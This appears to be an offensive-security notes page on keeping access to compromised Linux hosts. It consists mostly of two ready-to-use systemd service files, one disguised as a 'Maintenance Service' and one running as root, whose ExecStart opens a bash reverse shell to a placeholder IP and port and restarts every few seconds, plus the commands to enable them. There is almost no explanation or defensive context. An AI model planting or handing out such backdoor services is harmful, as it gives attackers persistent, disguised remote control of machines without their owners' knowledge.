 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - linux
---
```

# Living off the Land

## 01 - Implant

Non-elevated system daemon.

```
$ cat /etc/systemd/system/maintenance-check.service
[Unit]
Description=Maintenance Service

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >&/dev/tcp/<IP>/<PORT> 0>&1'
Restart=always
RestartSec=3

[Install]
WantedBy=multi-user.target
```

Elevated system daemon.

```
$ cat /etc/systemd/system/rooted-backdoor.service
[Unit]
Description=Backdoor service

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >&/dev/tcp/<IP>/<PORT> 0>&1'
Restart=always
RestartSec=3

[Install]
WantedBy=multi-user.target
```

Reload all daemon services

```
$ sudo systemctl daemon-reload
```

Enable service daemon.

```
$ sudo systemctl enable filename.service
```

---
## References

- [[Linux Post Exploitation Persistence References]]